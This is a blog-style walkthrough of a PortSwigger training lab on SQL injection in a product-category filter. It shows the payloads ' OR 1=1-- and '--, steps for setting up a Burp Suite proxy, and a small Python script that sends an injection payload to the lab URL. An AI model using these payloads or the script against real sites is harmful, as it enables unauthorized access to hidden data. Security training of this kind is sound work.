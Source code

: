 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-4.png)

Lab #1 by PortSwigger Web Security Academy: [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Description

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Steps

Upon accessing the lab and filtering on the `Pets` category, I noticed a GET parameter named `category` in the URL.

To test the application’s behavior, I initially tried adding a single quote (`'`) by navigating to `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='`.

This resulted in an `Internal Server Error`, which confirms that the application is indeed vulnerable.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-1.png)

By adding a single quote (`'`) to the `category` parameter, the application executes the following query against the database:

```sql
SELECT * FROM products WHERE category = ''' AND released = 1
```

### Preparing a SQL injection Payload:

Let’s try replacing `'` with `'--`. The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`.

**Expected Query:**

```sql
SELECT * FROM products WHERE category = ''-- AND released = 1
```

URL: `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='--`

As we can observe, the error disappeared, and the page returned no products. Perfect!

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-2.png)

Next, let’s try `' OR 1=1`, which will return the result of the following query:

```sql
SELECT * FROM products WHERE category = '' OR 1=1 -- AND released = 1
```

The modified query will return all items where either the category is empty (`''`) or `1=1`. Since `1=1` is always true, the query will return all items.

This solves Lab #1! Congratulations.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-3.png)

However, we won’t stop here. Let’s go the extra mile and automate the SQLi payload. To begin, download Burp Suite Community Edition and ensure that the Proxy listener is enabled.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-6.png)

Download the FoxyProxy extension and add the Burp Suite proxy address and port.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-5.png)

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-7.png)

Enable the Burp proxy and navigate to the interface where Burp is running (`127.0.0.1:8080`). Save the CA certificate when prompted.&#x20;

<figure><img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-10.png" alt=""><figcaption></figcaption></figure>

To prevent Firefox SSL errors when using Burp, import the certificate we just downloaded by going to `about:preferences#privacy` in Firefox.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-11.png)

We are now ready to intercept our HTTP(s) traffic through Burp. As shown below, the intercept is on, and we can observe the GET `/filter?category=param` request.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-8.png)

To automate this SQL injection payload, we can use the below Python script:

```python
import requests  
import sys  
import urllib3  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
if __name__ == "__main__":  
	try:  
		url = sys.argv[1].strip()  
		payload = sys.argv[2].strip()  
	except IndexError:  
		print('Usage: %s <url> <payload> ; e.g www.example.com "1=1"' % sys.argv[0])  
		sys.exit(-1)  
  
uri = '/filter?category='  
r = requests.get(url + uri + payload, verify=False, proxies=proxies)  
  
# Congratulations message will show up only after solving the lab manually.  
if "Congratulations" in r.text:  
	print("it worked.")  
else:  
	print("Didn't work.")
```

To test our script with the Lab’s temporary URL and the payload we initially tested (`' OR 1=1--`), you can use the following command:

```powershell
python3 sqli-lab01.py https://0a9d00e603476b2480e1766400eb00da.web-security-academy.net "' or 1=1--"
```

et voilà! [Little bobby tables](https://xkcd.com/327/) would be very happy :-)

![](https://jawad.ca/images/sqli-lab01/exploits\_of\_a\_mom.png)
